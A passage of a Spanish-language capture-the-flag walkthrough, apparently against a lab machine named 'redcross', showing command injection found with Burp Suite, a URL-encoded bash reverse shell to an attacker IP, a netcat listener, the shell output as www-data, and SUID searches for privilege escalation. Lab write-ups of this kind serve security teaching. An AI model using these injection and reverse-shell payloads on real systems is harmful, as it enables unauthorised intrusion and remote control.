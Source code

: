 **Acción:** con todo esto seguimos examinando más en profundidad. Tenemos que probar cada funcionalidad que encontremos, como en `Network Access`, además de poder añadir una IP a una lista blanca, podemos borrarla. Vamos a analizar como se tramita esta petición con [Burp Suite](../../../../Herramientas/Burp%20Suite/BurpSuite.md). Ya que algo que podría concatenarse en peticiones como las que vamos a ver es un comando. Es decir, tenemos un campo donde introducir nuestro input, entendemos que esto esta programado dentro de una función que va a recibir dicho input y realizar determinadas acciones que desconocemos con ella. Pero, cabe preguntarse, y si de igual modo que ejecuta la acción programada, podemos concatenar o escapar de dicho contexto para ejecutar un comando. Por ejemplo `input; whoami`. Aquí añadiríamos el comando `whoami` al input que introduzcamos con el indicador propio de JavaScript y otros lenguajes `;`. Con esto damos fin a la acción anterior y damos inicio/concatenamos la siguiente. Para probar esta hipótesis, usaremos BurpSuite.

![Captura](./Imágenes/burp_1.png)

**Payload Reverse Shell:** usamos una versión URL-encoded de `; bash -c 'bash -i >& /dev/tcp/<IP_Atacante>/443 0>&1'`

```init
; bash -c "bash -i >%26/dev/tcp/<IP_Atacante>/443 0>%261"
```

**Servidor de escucha - Netcat:** `nc -lvnp 443`

```bash
Listening on 0.0.0.0 443
Connection received on 10.10.10.113 43136
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
www-data@redcross:/var/www/html/admin/pages$ whoami
whoami
www-data
```

**Resultado:** ganamos acceso a la máquina objetivo, como usuario con bajos privilegios. Desde este punto la idea siempre es ganar más acceso, pivotar entre usuarios o sistemas y elevar nuestros privilegios a ser posible como root.


---

## Elevar privilegios

**Acción:** en un caso real, probaríamos multitud de formas, para resumir en esta guía, buscaremos directamente los archivos con permisos especiales SUID

[<<<<<Para saber más sobre la ESCALADA DE PRIVILEGIOS visite nuestro apartado dedicado a ello>>>>>](../../../..//Técnicas/Escalada%20de%20privilegios/)

```bash
find \-perm -4000 2>/dev/null
```

También válido (más correcto):

```bash
find / -type f -perm -4000 2>/dev/null
```
